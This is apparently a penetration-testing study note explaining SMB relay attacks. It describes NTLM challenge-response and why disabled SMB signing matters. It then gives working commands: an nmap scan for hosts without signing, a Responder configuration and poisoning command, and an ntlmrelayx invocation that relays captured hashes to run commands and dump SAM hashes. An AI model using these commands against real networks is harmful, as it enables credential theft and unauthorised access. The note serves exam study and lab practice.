 
# SMB Relay Attack
In an [SMB](networking/protocols/SMB.md)-Relay attack, instead of attempting to crack the hashes gathered from the network with [Responder](nested-repos/PNPT-study-guide/PEH/active-directory/initial-vectors/responder.md), an attacker relays those hashes to other machines in the hopes that *one will allow them to gain access*.
## Basic Flow
SMB Relay takes advantage of regular authentication attempts by common automated systems on a network. These automated systems perform regular management tasks on devices on the network. To do so, they attempt to logon/ authenticate with any device which connects to the network using [NTLM](networking/protocols/NTLM.md).
### Normal Function
The service tries to authenticate with the server. The server responds with a challenge, usually 'if you're really the user you say you are, then encrypt this challenge with the user's *password hash* and send it back.'

The service on the client encrypts the challenge w/ the user's password and sends the new value back to the server. The server decrypts the answer with the user's password and, if it decrypts to the original challenge it sent, it authenticates the service.
### Exploitation
An attacker can exploit this vulnerable exchange by capturing the traffic b/w the service and the server, modifying it, and essentially hijacking the authentication by the server of the service (the attacking machine gets authenticated instead).

By hijacking the authentication, the attacker gains access *to the target server which sent the challenge*.
![](PNPT-study-guide/PNPT-pics/smbrelay.png)
![](/PNPT-study-guide/PNPT-pics/smbrelay.png)
> [Cowdex](https://cowdex.github.io/posts/smb-relay-attack/)
#### Requirements:
- SMB Signing disabled
- Admin credentials: the relayed user credentials *must be admin credentials* or you don't gain much from obtaining them. 
- Additionally, you can't relay the credentials to yourself (attacker). The credential *must be relayed to a different computer*.
## Exploitation
### Identify Hosts without SMB signing
First, we have to find hosts on the target network which have SMB signing disabled.
#### What is SMB signing?
SMB signing is a security mechanism added to the SMB protocol by Microsoft starting with Windows 2000. It protects the integrity of messages sent b/w a client and a server by signing each message with a signature generated via the session key.

This *prevents tampering of the message* by an attacker because any tampering will *change the hash*, thus signaling to the system that the message was compromised in-transit.
#### Using [nmap](hidden/youtube/nmap.md)
Nmap has a script which will report back which hosts on the network have SMB signing disabled. To run it, just use:
```bash
┌──(hakcypuppy㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p139,445 10.10.10.175
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-27 14:40 GMT
Nmap scan report for egotistical-bank.local (10.10.10.175)
Host is up (0.040s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required  # here

Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
```
Regardless of the number of targets which come back as not requiring SMB signing, add each one to a file called `targets.txt`.
### Relay w/ [Responder](cybersecurity/tools/exploitation/responder.md) & `smbrelayx.py`
Once we've found a good host, we're going to use a combination of Responder and [this impacket script]() to capture a hash and then relay if (using our own server) to the target.

First, we have to update our Responder configuration so it doesn't act as the server (since the impacket script will do that for us).
`/usr/share/responder/responder.conf`
```bash
[Responder Core]                                                           
; Servers to start                                                                
SQL = On                                                                        
SMB = Off    # this should be off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off   # this should be off                                                     ...
```
#### Responder
The command we give to responder will tell Responder to listen on our specified interface and passively capture hashes on the network:
```bash
respnder -I eth0 -dwPv
```
- `d`: [DHCP](networking/protocols/DHCP.md) (allows Responder to answer DHCP broadcast requests)
- `w`: [WPAD](computers/windows/active-directory/WPAD.md) proxy server
- `P`: ProxyAuth (forces NTLM authentication)
- `v`: verbose
#### `ntlmrelayx.py`
The `ntlmrelayx.py` script is from python [impacket](cybersecurity/tools/exploitation/impacket.md) which will handle relaying the hashes captured by responder to the target devices.
```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
- `tf`: target file
- `-smb2support`: support SMB version 2
- `-c`: command to execute on target system
#### Success
Upon successful relay to the target, impacket will print the local SAM hashes for accounts on the target device. Ideally, one of those will be from an Administrator account.

> [!Resources]
> - [Microsoft: Overview of SMB signing](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing)
> - [Mark Baggett: SMB Relay Demystified...](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
> - [Cowdex: SMB Relay Attack](https://cowdex.github.io/posts/smb-relay-attack/)
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)


